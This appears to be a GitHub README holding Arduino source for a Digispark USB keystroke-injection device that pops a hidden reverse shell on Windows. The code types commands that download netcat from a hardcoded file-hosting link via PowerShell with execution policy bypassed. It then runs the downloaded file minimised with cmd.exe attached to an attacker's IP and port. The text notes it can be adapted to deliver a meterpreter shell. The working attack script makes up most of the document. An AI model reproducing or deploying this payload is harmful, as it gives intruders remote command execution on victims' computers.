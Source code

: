 # Digispark Arduino Reverse Shell for windows 10

#### Although designed for windows 10 this script will work for windows vista onwards.

## A digispark arduino script to pop a reverse hidden shell to a specified ip address using netcat.

I recommend wrapping the pcb with electrical tape with small holes for the LED's to avoid shortages when transporting the device such as in the image below.

<img src="https://github.com/valkyrix/digispark-reverse-shell-windows-10/raw/master/digispark.jpg" align="left" height="400" width="400" >

The listening machine will need to be running before the script is run.

This script can be easily modified to pop a reverse meterpreter shell instead of netcat.

link to download netcat has been hardcoded but can be replaced if wanted. To do this change the url to a direct download url of nc64.exe.

This script has been optimised to run on the digisparks limited memory requirements.

#### Warning: depending on the model of digispark the onboard led might be on pin 0 instead of 1.

LED Run-status: The LED will blink to state the code has started running. Once the code execution has completed the LED will stay illuminated and thus the device can be unplugged.

replace `IP` and `PORT` with your own values.
```c
#include "DigiKeyboard.h"
/* Init function */
//script created by valkyrix.github.io
void setup()
{//turn LED off while code is running, this means the device is safe to unplug as soon as the LED turns back on
  pinMode(1, OUTPUT); //LED on Model A
  digitalWrite(1, HIGH);
  DigiKeyboard.delay(500);
  digitalWrite(1, LOW);
  DigiKeyboard.sendKeyStroke(0);
  DigiKeyboard.sendKeyStroke(KEY_R, MOD_GUI_LEFT);
  DigiKeyboard.delay(100);
  DigiKeyboard.println("cmd");
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  DigiKeyboard.delay(100);
  DigiKeyboard.println("cd / & mkdir win & cd /win & echo (wget 'https://1fichier.com/?dtc7uqmikl' -OutFile a.exe) > b.ps1");
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  DigiKeyboard.delay(50);
  DigiKeyboard.println("powershell -ExecutionPolicy ByPass -File b.ps1");
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  DigiKeyboard.delay(50);
  DigiKeyboard.println("START /MIN a.exe IP PORT -e cmd.exe -d & exit");
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  digitalWrite(1, HIGH);
}

/* Unused endless loop */
void loop() {}

```

